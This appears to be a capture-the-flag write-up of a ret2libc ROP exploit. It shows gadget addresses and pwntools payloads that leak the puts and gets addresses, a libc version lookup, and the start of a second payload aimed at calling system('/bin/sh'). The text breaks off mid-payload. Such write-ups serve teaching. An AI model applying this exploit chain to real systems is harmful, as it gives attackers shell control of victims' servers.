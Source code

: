 ## First payload

To generate first exploit we need to find two gadgets, main address.
To find gadgets addressys I used ROPgadget which returned:
```
0x0000000000401016 : ret
0x000000000040120b : pop rdi ; ret
```

and from objdump i get "main" address:
```0000000000401142 <main>:```

to get puts plt and got adress I used pwntools build in function
```
binary.got.puts
binary.plt.puts
```

full code of payload is:
```py
payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    # pop rdi; ret
payload += p64(binary.got.puts)       # address of linked puts function (it will be passed as argument to puts)
payload += p64(binary.plt.puts)       # address of linked puts function 
payload += p64(0x0000000000401142)    # main
```

After sending this payload I got puts address which was:
`puts: 0x7f2807370910`

Nextly, I edited this payload to leak gets function address.  
After modification it looks like:
```py
payload = b'\x79' * padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    # pop rdi; ret
payload += p64(binary.got.gets)       # address of linked gets function (it will be passed as argument to puts)
payload += p64(binary.plt.puts)       # address of linked puts function
payload += p64(0x0000000000401142)    # main
```
Gets address was:
```gets: 0x7f3313d3f040```

## Libc version

To determinate which Libc version is running in the server we need to check which version of libc use offset like this.  
To do this I used https://libc.blukat.me// and past there last 3 characters from puts and gets address. Website returned to me libc version running at the server  
and usefull offsets (especially: system function and "/bin/sh" string)  

<img src="Pasted image 20210727204947.png" alt="website">

## Second payload
When we know libc address we can run not linked function directly from library in our case it will be system("/bin/sh").  
"system()" command will run shell and give us controll at the system what will enable us to run every command at victim server.

```py
payload = b'\x79' * padding           # padding
payload += p64(0x0000000000401016)    # ret
payload += p64(0x000000000040120b)    # pop rdi; ret
```